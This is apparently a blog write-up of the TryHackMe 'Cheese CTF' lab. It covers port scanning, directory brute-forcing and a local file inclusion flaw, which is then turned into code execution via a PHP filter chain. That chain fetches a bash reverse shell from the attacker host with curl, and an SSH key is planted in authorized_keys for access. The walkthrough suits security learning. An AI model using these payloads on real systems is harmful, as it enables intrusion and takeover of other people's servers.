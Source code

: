 ```yaml
---
layout: post
title:  "TryHackMe: Cheese CTF"
description: Inspired by the great cheese talk of THM!
date:   2024-10-10 22:53:59 +0100
categories: jekyll update
---
```


# Cheese CTF:

```sh
export IP= M-ip
```
# Enumeration:

```sh
sudo nmap -sS -sC -sV -vv $IP
```
It's clear that the machine is using port spoofing to create decoy services by opening multiple fake ports. This makes it look like various services are running, which is intended to confuse us and make it harder to identify which port is legitimate.

<details>
  <summary><i>Nmap Discoverd Ports</i></summary>
  <pre>
Discovered open port 143/tcp on 10.10.10.247
Discovered open port 139/tcp on 10.10.10.247
Discovered open port 111/tcp on 10.10.10.247
Discovered open port 995/tcp on 10.10.10.247
Discovered open port 53/tcp on 10.10.10.247
Discovered open port 3389/tcp on 10.10.10.247
Discovered open port 554/tcp on 10.10.10.247
Discovered open port 5900/tcp on 10.10.10.247
Discovered open port 445/tcp on 10.10.10.247
Discovered open port 1720/tcp on 10.10.10.247
Discovered open port 110/tcp on 10.10.10.247
Discovered open port 587/tcp on 10.10.10.247
Discovered open port 8080/tcp on 10.10.10.247
Discovered open port 21/tcp on 10.10.10.247
Discovered open port 22/tcp on 10.10.10.247
Discovered open port 1723/tcp on 10.10.10.247
Discovered open port 80/tcp on 10.10.10.247
Discovered open port 1025/tcp on 10.10.10.247
Discovered open port 993/tcp on 10.10.10.247
Discovered open port 3306/tcp on 10.10.10.247
Discovered open port 5544/tcp on 10.10.10.247
Discovered open port 2222/tcp on 10.10.10.247
Discovered open port 2007/tcp on 10.10.10.247
Discovered open port 3322/tcp on 10.10.10.247
Discovered open port 7402/tcp on 10.10.10.247
Discovered open port 1078/tcp on 10.10.10.247
Discovered open port 3013/tcp on 10.10.10.247
Discovered open port 545/tcp on 10.10.10.247
Discovered open port 8093/tcp on 10.10.10.247
Discovered open port 8010/tcp on 10.10.10.247
Discovered open port 60020/tcp on 10.10.10.247
Discovered open port 9003/tcp on 10.10.10.247
Discovered open port 25/tcp on 10.10.10.247
Discovered open port 6881/tcp on 10.10.10.247
Discovered open port 32775/tcp on 10.10.10.247
Discovered open port 1169/tcp on 10.10.10.247
Discovered open port 5989/tcp on 10.10.10.247
Discovered open port 3005/tcp on 10.10.10.247
Discovered open port 8042/tcp on 10.10.10.247
Discovered open port 49159/tcp on 10.10.10.247
Discovered open port 2135/tcp on 10.10.10.247
Discovered open port 11110/tcp on 10.10.10.247
Discovered open port 8701/tcp on 10.10.10.247
Discovered open port 8193/tcp on 10.10.10.247
Discovered open port 2394/tcp on 10.10.10.247
Discovered open port 5631/tcp on 10.10.10.247
Discovered open port 199/tcp on 10.10.10.247
Discovered open port 90/tcp on 10.10.10.247
Discovered open port 4445/tcp on 10.10.10.247
Discovered open port 1032/tcp on 10.10.10.247
Discovered open port 1009/tcp on 10.10.10.247
Discovered open port 25734/tcp on 10.10.10.247
Discovered open port 5850/tcp on 10.10.10.247
Discovered open port 1812/tcp on 10.10.10.247
Discovered open port 443/tcp on 10.10.10.247
Discovered open port 1030/tcp on 10.10.10.247
Discovered open port 3527/tcp on 10.10.10.247
Discovered open port 2033/tcp on 10.10.10.247
Discovered open port 1152/tcp on 10.10.10.247
Discovered open port 23/tcp on 10.10.10.247
Discovered open port 8083/tcp on 10.10.10.247
Discovered open port 8888/tcp on 10.10.10.247
Discovered open port 113/tcp on 10.10.10.247
Discovered open port 135/tcp on 10.10.10.247
Discovered open port 256/tcp on 10.10.10.247
Discovered open port 1334/tcp on 10.10.10.247
Discovered open port 1192/tcp on 10.10.10.247
Discovered open port 1322/tcp on 10.10.10.247
Discovered open port 32772/tcp on 10.10.10.247
Discovered open port 3052/tcp on 10.10.10.247
Discovered open port 32781/tcp on 10.10.10.247
Discovered open port 27356/tcp on 10.10.10.247
Discovered open port 5414/tcp on 10.10.10.247
Discovered open port 19350/tcp on 10.10.10.247
Discovered open port 808/tcp on 10.10.10.247
Discovered open port 1687/tcp on 10.10.10.247
Discovered open port 9575/tcp on 10.10.10.247
Discovered open port 2035/tcp on 10.10.10.247
Discovered open port 6009/tcp on 10.10.10.247
Discovered open port 50001/tcp on 10.10.10.247
Discovered open port 2909/tcp on 10.10.10.247
Discovered open port 801/tcp on 10.10.10.247
Discovered open port 10617/tcp on 10.10.10.247
Discovered open port 1875/tcp on 10.10.10.247
Discovered open port 38292/tcp on 10.10.10.247
Discovered open port 514/tcp on 10.10.10.247
Discovered open port 2701/tcp on 10.10.10.247
Discovered open port 7999/tcp on 10.10.10.247
Discovered open port 22939/tcp on 10.10.10.247
Discovered open port 1033/tcp on 10.10.10.247
Discovered open port 8008/tcp on 10.10.10.247
Discovered open port 1198/tcp on 10.10.10.247
Discovered open port 2381/tcp on 10.10.10.247
Discovered open port 44442/tcp on 10.10.10.247
Discovered open port 50002/tcp on 10.10.10.247
Discovered open port 3914/tcp on 10.10.10.247
Discovered open port 5225/tcp on 10.10.10.247
Discovered open port 5800/tcp on 10.10.10.247
Discovered open port 2008/tcp on 10.10.10.247
Discovered open port 5862/tcp on 10.10.10.247
Discovered open port 2009/tcp on 10.10.10.247
Discovered open port 8400/tcp on 10.10.10.247
Discovered open port 5033/tcp on 10.10.10.247
Discovered open port 2910/tcp on 10.10.10.247
Discovered open port 10004/tcp on 10.10.10.247
Discovered open port 2260/tcp on 10.10.10.247
Discovered open port 990/tcp on 10.10.10.247
Discovered open port 8085/tcp on 10.10.10.247
Discovered open port 777/tcp on 10.10.10.247
Discovered open port 37/tcp on 10.10.10.247
Discovered open port 8086/tcp on 10.10.10.247
Discovered open port 9898/tcp on 10.10.10.247
Discovered open port 3889/tcp on 10.10.10.247
Discovered open port 616/tcp on 10.10.10.247
Discovered open port 1096/tcp on 10.10.10.247
Discovered open port 7443/tcp on 10.10.10.247
Discovered open port 24/tcp on 10.10.10.247
Discovered open port 6156/tcp on 10.10.10.247
Discovered open port 9080/tcp on 10.10.10.247
Discovered open port 1296/tcp on 10.10.10.247
Discovered open port 2100/tcp on 10.10.10.247
Discovered open port 2607/tcp on 10.10.10.247
Discovered open port 1038/tcp on 10.10.10.247
Discovered open port 1174/tcp on 10.10.10.247
Discovered open port 42/tcp on 10.10.10.247
Discovered open port 2045/tcp on 10.10.10.247
Discovered open port 1783/tcp on 10.10.10.247
</pre>
</details>



# Directory bruteforcing:


```sh
gobuster dir --url http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
```

```sh
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 1759]
/images               (Status: 301) [Size: 313] [--> http://10.10.10.247/images/]
/login.php            (Status: 200) [Size: 834]
/users.html           (Status: 200) [Size: 377]
/messages.html        (Status: 200) [Size: 448]
/orders.html          (Status: 200) [Size: 380]
```

we found that the /messages.html contain 

![Screenshot_9](https://github.com/user-attachments/assets/554342de-9602-4fa1-98f5-ae13da327c3d)

we got a Local File Inclusion (LFI) on /secret-script.php?file=php://filter/resource=/etc/passwd  

PHP applications that allow user input to dictate file handling without proper validation.

![Screenshot_1](https://github.com/user-attachments/assets/3ec570d3-e484-4258-be23-cc2f3683be2b)


# initial access : 

I used php filter chain generator . 

https://github.com/synacktiv/php_filter_chain_generator


```sh
echo "bash -i >& /dev/tcp/10.9.1.54/4444 0>&1" > shell
```
<?= ... ?>: This is PHP's shorthand for <?php echo ... ?>, which means it will output or "echo" whatever is inside the tags.

```sh
python3 php_filter_chain_generator.py --chain '<?= `curl -s -L 10.9.1.54/shell|bash` ?>'
```

<details>
  <summary><i>PHP filter chain </i></summary>
  <pre>
+] The following gadget chain will generate the following code : <?= `curl -s -L 10.9.1.54/shell|bash` ?> (base64 value: PD89IGBjdXJsIC1zIC1MIDEwLjkuMS41NC9yZXZzaGVsbGx8YmFzaGAgPz4)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.CP1163.CSA_T500|convert.iconv.UCS-2.MSCP949|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP866.CSUNICODE|convert.iconv.CSISOLATIN5.ISO_6937-2|convert.iconv.CP950.UTF-16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM860.UTF16|convert.iconv.ISO-IR-143.ISO2022CNEXT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.CSISO2022KR|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.BIG5|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.iconv.CP950.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
  </pre>
</details>

After we apply the PHP filter chain to the vulnerable Local File Inclusion (LFI), the reverse shell script will be downloaded to the victim machine and executed. This happens by using the curl command to fetch the shell script from our remote server, and then piping it directly into Bash for execution, giving us remote access to the target system.

```sh
Attacker Machine 

sudo python3 -m http.server 80
```
```sh
Attacker Machine

nc -lvnp 4444
```

```sh
http://10.10.237.45/secret-script.php?file=PHP-FILTER-CHAIN
```

![Screenshot_2](https://github.com/user-attachments/assets/b8796269-e663-4402-8c9b-cce01cc4b6c3)


# Privilege escalation:

After further enumeration, I discovered that I have write access to the authorized_keys file in the .ssh directory.

I generated my id_rsa.pub key and added it to the authorized_keys file on the victim machine.

```sh
Attacker Machine

ssh-keygen -t rsa

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine
```
```sh
Victim Machine

echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQC0O0JSsJWhGHQDI1wEqoTZapMiec+9x/FzqM2Ys2+9o8U1RQEp6zHWMVzjGDFSGDSJGDJLKQSJKCJLQKb5iA+mZSagNEHIXn906gQW2/z3hpojwsDTLiEzdEPh+66q28LHFL0FuUmNvslkjmlkcdnhCKUklmdjsq?XCLMW?QLKSFJKDBSJKBdnszfjheafhjvdxqhcvbqvcygfavguvcshjwbcnsbhfsfsojfdsE7NCxFoKcl9MeMyNYPZB4WzRjXStQfF9XyuvhrI+C6VLoWiL11N2owozGhssA/1/hpEjDWJwMe0/7QcYYjTJ2IOJFDSKLNFSDHFDFSDlxWv/zINKv5EttAFyrTtO2pydh3wd5GaC8se0= kali@attacker_machine" > authorized_keys
```

I changed the permissions of the id_rsa private key to ensure it's only readable and writable by me using chmod 600. After that, I used ssh -i id_rsa comte@10.10.122.229 to log into the remote machine as the user comte, authenticating with my private key.

```sh
Attacker Machine

chmod 600 id_rsa

ssh -i id_rsa  comte@10.10.122.229
```

![Screenshot_3](https://github.com/user-attachments/assets/2d798fae-caf9-4243-b251-08a218e826f7)

